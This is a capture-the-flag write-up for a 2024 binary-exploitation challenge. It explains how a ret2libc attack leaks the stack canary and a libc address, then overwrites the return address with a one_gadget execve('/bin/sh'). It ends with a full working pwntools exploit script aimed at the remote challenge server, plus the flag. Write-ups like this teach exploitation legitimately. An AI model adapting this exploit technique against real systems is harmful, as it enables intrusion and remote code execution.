








# PhoenixCTF 2024 - `memo_4` Writeup
```
pts: 100
Author: shunt
Category: pwn
```

Challenge files: [chal_4](/.chal_4), [libc.so.6](./libc.so.6)

# TL;DR
This was the last and most difficult challenge of the series with the highest number points. This time there was no `backdoor()` function that we could call to get shell. Also Canary and PIE was enabled. We were given the remote libc file. This was a hint that we had to perform [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc) attack.

I patched the binary with [pwininit](https://github.com/io12/pwninit) so that it uses the given libc instead of the local system's libc. To perform a libc attack, we have to leak a runtime address from libc using which we can get the libc base address and all other juicy function's (`system()`, `execve()`) runtime addresses. We had the capability to leak anything from the stack as demonstrated in other challenges of this series. So I **searched for any libc addresses on the stack that is close to our controlled buffer (the memo) and leaked that**. After I got a runtime libc address, the rest of the steps were similar to the previous challenges: leak both canary and return address and overwrite return address with the address of `execve("/bin/sh", 0, 0)` calculated through [one_gadget](https://github.com/david942j/one_gadget) offset and libc base address. See [Detailed Solution](#detailed-solution) for the complete walkthrough.

Final Exploit Script: [solve.py](#solvepy)
# Detailed Solution
## Initial Analysis
All protections including Canary and PIE have been enabled.



No `backdoor()` function to let us execute shell directly, as we can see from Ghidra.



## Patch binary
Before we move on to our exploitation, we need to patch the binary first so that they use the given remote `libc.so.6` as provided in the challenge files. This is a crucial step because, by default, a program uses the local libc of the underlying system where its running. But the local libc and remote libc might not match rendering our ret2libc attack unsuccessful because the instruction offsets vary in different libc versions. So we have to patch the binary to use the libc matching that of the remote server.

We can see which libc and linker our program will be using through `ldd`:
```bash
$ ldd chal_4
	linux-vdso.so.1 (REDACTED_ADDRESS)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (REDACTED_ADDRESS)
	/lib64/ld-linux-x86-64.so.2 (REDACTED_ADDRESS)
```
So its using our local libc. We'll use [pwininit](https://github.com/io12/pwninit) to patch the binary so that the used libc matches the remote server's. After running `pwninit`, lets `ldd` now:
```bash
$ ldd chal_4_patched 
	linux-vdso.so.1 (REDACTED_ADDRESS)
	libc.so.6 => ./libc.so.6 (REDACTED_ADDRESS)
	./ld-2.31.so => /lib64/ld-linux-x86-64.so.2 (REDACTED_ADDRESS)
```
`libc.so.6` file is changed. Lets check its libc version.
```bash
$ strings libc.so.6 | grep "Ubuntu GLIBC"
GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.15) stable release version 2.31.
```
With the binary now patched, we can now proceed to our primary objective of exploitation.
## Leak Canary
As canary is enabled, I first leaked the canary. See details in [memo_3](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_3), which is exactly the same as I did here. I had to do just one extra thing here. The byte after the canary was not NULL bytes like we had in [memo_3](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_3). That byte was also getting printed by `printf()`. So from the response, I searched the index of the last `A`'s position (as `A` is my garbage byte here) and took 8 bytes from that position as the 8-bytes just after last `A` was the Canary.



## Leak libc runtime address and get shell
Now the main part of this challenge. We have to leak a libc runtime address so that we can execute shell through libc functions (`system`, `execve` etc.). Also as we have been given the libc running in remote server, its a pretty good hint that we have to do a `ret2libc` attack here. Once we get the leak, its pretty standard in `pwntools` to get the addresses of juicy libc functions that we can use to get shell.

We have the ability to leak anything from the stack. So if a value on the stack was an address pointing to libc, we could read that and get the leak. The enhanced version of gdb, [GEF](https://hugsy.github.io/gef/) came in pretty handy here. We can use the `scan` command of GEF to find any instances of libc addresses in the currently running function's stack.



We found one address pointing to `__libc_start_main+243` and it is also pretty close to our controlled buffer i.e. the added memo. As we can see from the below image, the location of this address on the stack is `312` bytes after the start of our buffer on stack.



This means we have to overwrite upto `312-264 = 48` bytes from the start of `edit` position. After that, using the previous technique to leak canary and return addresses, we view the memo to get the libc leak.

Now what to do with this leak? We want to get a shell after all, right? We can go about either of two common ways to get a shell from a libc leak, call `system("/bin/sh")` or `execve("/bin/sh", 0, 0)`. The first approach is cumbersome as then we would have to find [ROP gadgets](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/gadgets) to call `system()` function with appropriate arguments ("/bin/sh" in this case). The other one, `execve()`, is a lot easier. This is what's known as a one-gadget which leads to remote code execution if we can just jump at that particular address. Jumping to this address will lead to execution of `execve("/bin/sh", 0, 0)` provided a set of constraints (registers containing some fixed values) is met. So I first tried this approach with the [one-gadget finder tool](https://github.com/david942j/one_gadget) and fortunately I found one whose conditions are satisfied at `challenge()` function's return point as we will jump to the one-gadget location from that point.





Now that we know which one-gadget location we would like to jump to when we return, we can just get the runtime address of that location by adding the offset found from the one-gadget finder tool to the leaked libc address. Next we overwrite the return address along with the leaked canary using the same technique mentioned in [memo_3](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2024/phoenixCTF/memo_3). And voila! we get the shell!



## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("167.172.237.17", 32189)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    start
    b *challenge+729
    b *challenge+799
    b *challenge+800
"""

# Binary filename
exe = './chal_4_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()
libc = ELF("./libc.so.6", checksec=False)
offset = 265
payload = b"A" * offset

# get CANARY leak
###############################
print(r.recvuntil("> "))
r.sendline("1") # Add Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": "))
r.sendline(str(offset)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # dummy payload to leak CANARY
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # pass

resp = r.recvline().rstrip()
print(resp)
last_A_index = resp.rindex(b'A')
leak = resp[last_A_index:last_A_index+8] # get 8 bytes starting from last A's position
# print(leak)
leak = leak.replace(b"A", b"") # replace dummy 'A' from leak
leak = u64(leak.rjust(8, b"\x00"))
print(f"leak (CANARY): {hex(leak)}")
CANARY = leak

# get libc leak
#######################################
offset = 47
payload = b"B" * offset

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to leak libc address
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvline())

leak = r.recvline().rstrip()
# print(leak)
leak = u64(leak.ljust(8, b"\x00"))
print(f"leak (libc): {hex(leak)}")

# calculate offsets inside libc
libc_leak = leak
libc_base_offset = 147587
libc.addr = libc_leak - libc_base_offset
EXECVE_OFFSET = 0xe3b01 # found from one_gadget
EXECVE = libc.addr + EXECVE_OFFSET
print(f"EXECVE: {hex(EXECVE)}")

# get SHELL
#############################
offset = 24
payload = p64(CANARY)
payload += b"A" * offset
payload += p64(EXECVE)

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to overwrite ret address and call execve()
print(r.recvuntil("> "))
r.sendline("4") # Exit, to call ret

r.interactive()
```

## Flag
`flag{efa542e3-2f01-4124-83b2-41612def9993}`
